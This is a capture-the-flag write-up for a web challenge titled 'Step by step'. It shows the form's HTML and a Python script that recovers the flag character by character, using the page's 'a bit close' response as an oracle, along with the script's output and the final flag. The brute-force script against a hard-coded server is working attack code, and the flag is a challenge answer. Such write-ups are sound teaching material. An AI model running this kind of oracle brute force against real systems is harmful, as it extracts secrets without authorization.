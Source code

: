 # Step by step

Author: X4v1l0k

## Website

![site](./site.png)</br>
Looks simple enough, when I entered `NETON{`:</br>
![message](./message.png)</br>
This message popped up in the top left corner. So we know what to look for, now just the source:
```html
<!DOCTYPE html>
<html>
	<head>
	</head>
	<body>
				<form action="/index.php" method="post">
			<div align='center'>
				<h1>Try to find the flag</h1>
				<input type="text" placeholder="Flag" name="flag" required>
				<hr>
				<button type="submit" name="send" class="boton">Send</button>
			</div>
		</form>
	</body>
</html>
```
On a correct part we get:
```html
<!DOCTYPE html>
<html>
	<head>
	</head>
	<body>
		Hey, you are a bit close than before!		<form action="/index.php" method="post">
			<div align='center'>
				<h1>Try to find the flag</h1>
				<input type="text" placeholder="Flag" name="flag" required>
				<hr>
				<button type="submit" name="send" class="boton">Send</button>
			</div>
		</form>
	</body>
</html>
```
And if we send a wrong one:
```html
<!DOCTYPE html>
<html>
	<head>
	</head>
	<body>
		Sorry, wrong flag!		<form action="/index.php" method="post">
			<div align='center'>
				<h1>Try to find the flag</h1>
				<input type="text" placeholder="Flag" name="flag" required>
				<hr>
				<button type="submit" name="send" class="boton">Send</button>
			</div>
		</form>
	</body>
</html>
```
As before, we know what url to send our POST request to, and what is the name of our input `flag`. Time to script!

## solve.py

We will need requests:
```py
import requests
```
Then we can start firing off our attempts to the website. Oh! And we will also need:
```py
import string
```
To have our full alphabet ready. So at first I used just string.printable. But there is one problem, it begins with `0` and that is just one part of the flag, so I modified the alphabet (after a hint from N0xi0us. Thanks! <3):
```py
alphabet = string.printable[10:]+string.printable[:10]
```
Then the rest is straightforward, just check for the error or the good message and do this until the whole flag appears:
```python
import requests
import string

alphabet = string.printable[10:]+string.printable[:10]

url = 'http://167.99.129.209:7788/index.php'

check_string = 'Hey, you are a bit close than before!'
fail = 'Sorry, wrong flag!'

flag = ''
i = 0
while True:
	i = i + 1
	for a in alphabet:
		try:
			data = { 'flag' : flag+a }
			re = requests.post(url,data=data)

			if check_string in re.text:
				flag = flag+a
				print(f'Iteration: {i} Next: {flag}')
		
		except KeyboardInterrupt as k:
			print('exit')
			raise k
		except Exception:
			pass

```
And the output:
```Java
python .\solve.py
Iteration: 1 Next: a
Iteration: 1 Next: ag
Iteration: 1 Next: ag
Iteration: 2 Next: ag i
Iteration: 2 Next: ag is
Iteration: 2 Next: ag is:
Iteration: 2 Next: ag is:
Iteration: 3 Next: ag is: S
Iteration: 4 Next: ag is: Su
Iteration: 4 Next: ag is: SuB
Iteration: 5 Next: ag is: SuBs
Iteration: 5 Next: ag is: SuBsT
Iteration: 6 Next: ag is: SuBsTr
Iteration: 6 Next: ag is: SuBsTr1
Iteration: 7 Next: ag is: SuBsTr1n
Iteration: 7 Next: ag is: SuBsTr1nG
Iteration: 8 Next: ag is: SuBsTr1nGs
Iteration: 8 Next: ag is: SuBsTr1nGs_
Iteration: 8 Next: ag is: SuBsTr1nGs_4
Iteration: 9 Next: ag is: SuBsTr1nGs_4r
Iteration: 9 Next: ag is: SuBsTr1nGs_4r3
Iteration: 10 Next: ag is: SuBsTr1nGs_4r3_
Iteration: 11 Next: ag is: SuBsTr1nGs_4r3_F
Iteration: 12 Next: ag is: SuBsTr1nGs_4r3_Fu
Iteration: 12 Next: ag is: SuBsTr1nGs_4r3_FuN
Iteration: 12 Next: ag is: SuBsTr1nGs_4r3_FuN_
Iteration: 12 Next: ag is: SuBsTr1nGs_4r3_FuN_4
Iteration: 13 Next: ag is: SuBsTr1nGs_4r3_FuN_4n
Iteration: 13 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD
Iteration: 13 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_
Iteration: 14 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C
Iteration: 14 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0
Iteration: 15 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0u
Iteration: 15 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uL
Iteration: 16 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD
Iteration: 16 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_
Iteration: 17 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b
Iteration: 17 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3
Iteration: 18 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_
Iteration: 19 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_v
Iteration: 19 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vU
Iteration: 20 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUl
Iteration: 20 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln
Iteration: 20 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3
Iteration: 21 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3r
Iteration: 21 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rA
Iteration: 22 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAb
Iteration: 22 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL
Iteration: 22 Next: ag is: SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL3
```
So the flag is NETON{SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL3}